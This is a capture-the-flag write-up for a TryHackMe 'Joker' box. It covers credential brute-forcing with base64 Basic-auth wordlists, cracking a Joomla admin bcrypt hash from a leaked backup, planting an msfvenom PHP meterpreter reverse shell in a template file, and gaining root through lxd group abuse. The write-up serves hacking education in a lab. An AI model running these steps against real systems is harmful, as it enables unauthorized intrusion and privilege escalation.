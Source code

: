 # enumerate
open port:
- 22 ssh
- 80 http
  - Apache/2.4.29
  - /index.html (Status: 200)
  - /phpinfo.php (Status: 200)
  - /secret.txt (Status: 200)
```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```
rock? rockyou.txt?
- 8080 need to authenticate

base on the conversation, we know that the user is `joker`. With burpsuit we intercept the post request and see how it is look like, not that there is a header call `Authorization: Basic am9rZXI6aGFubmFo` is a encoded `username:password` in base64. I then create a small scrip which create a wordlist for us.
```py
import base64
filne = '/usr/share/wordlists/rockyou.txt'
joker = open('joker.txt', 'w')
with open(filne, 'r+') as f:
    lines = f.readlines()
    for i in range(0, 10): # insert line to read
        auth = 'joker:'+lines[i]
        joker.write(base64.b64encode(auth)+'\n')
joker.close()
f.close()
```
now use burpsuit/hydra and try to crack the password, this can take really long time.(hint: encode what I show you above to get password).use the joker credential to login, note that the blog is using `joomla`. let use gobuster to file out more directory
```console
$ gobuster dir -U joker -P <pass> -u http://$IP:8080/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .http,.bak,.tar,.zip -t 54
```
- /administrator/ is a admin login page.. I try to login with joker credential... didnt work
- /backup: I got so happy when I see it.. juicy XD
Oh backup.zip is password protected. Luckly for us, the password to backup.zip is the joker's password. no need to use john to crack it. There are many interesting file here but we are looking for something that containt admin credentail so we can use it to log in to the admin page. 

Bingo there is a /db which contain joomladb.sql > sql database. let use grep to find juciy stuff.
```console
kali@kali:~/THM/joker/backup-(1)/db$ grep user joomladb.sql 
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','<hash here>',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
/*!40000 ALTER TABLE `cc1gr_users` ENABLE KEYS */;
```
BOOOM! we got admin credential. not that that password is hash using `bcrypt` (google "hashcat hash example" to define the hash). now use netcat to decryp the hash
```console
hashcat -m 3200 -a 0 -o crack.txt '$2y$<hashherhe>' /usr/share/wordlists/rockyou.txt --force
```
now let login to to admin page use the credential we got. So the plan is try to get reverse shell to get foothold to the server. after some diggin I found [this](https://www.hackingarticles.in/joomla-reverse-shell/). I will go for msfvenom and msfconsole way since we might need to upload stuff in the further attack and msfconsole make it easier.

start with create a meterpreter reverse shell using msfvenom
```
msfvenom -p php/meterpreter/reverse_tcp lhost=$IP lport=1234 R
```
now back to joomla admin panel. go to *extensions* then *templates* -> *Beez3* -> and edit *error.php* with the payload that we generated with msfvenom. let go back to downloaded backup. note that you can find error.php at `/templates/beez3/error.php` so it should be the same way on the web page.

Run msfconsole
```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost tun0
set lport 1234
exploit
```
then go and visit `/templates/beez3/error.php` to execute our payload. Boom we got meterpreter shell.

Drop down to shell and run `which python/python3` to check if there are any python install, we need it to generate tty shell. Yes we have python3.
```console
python3 -c 'import pty; pty.spawn("/bin/sh")' # spawn tty shell
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```
NICE seem like are a member of lxd group. I know that we can gain root by abusing lxd privilage from [Tabby](../HackTheBox/tabby.md) check the link if you want to know in depth. In kali run:
```console
$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine # download build-alpine
$ chmod 777 build-alpine
$ sudo ./build-alpine  # build it
```
now back to meterpreter. backgroup the current chanel and then upload alpine to the server.
```
meterpreter > upload script/lxd/myalpine.tar.gz
meterpreter > channel -i 0
$ lxc image import alpine-v3.12-x86_64-20200728_1308.tar.gz --alias kurohat
$ lxc init kurohat kurocontainer -c security.privileged=true
$ lxc config device add kurocontainer kurodevice disk source=/ path=/mnt/root recursive=true
$ lxc start kurocontainer
$ lxc exec kurocontainer /bin/sh
~ # whoami  
whoami
root
ls  /mnt/root/root/
final.txt
~ # cat /mnt/root/root/final.txt
cat /mnt/root/root/final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
```
GGWP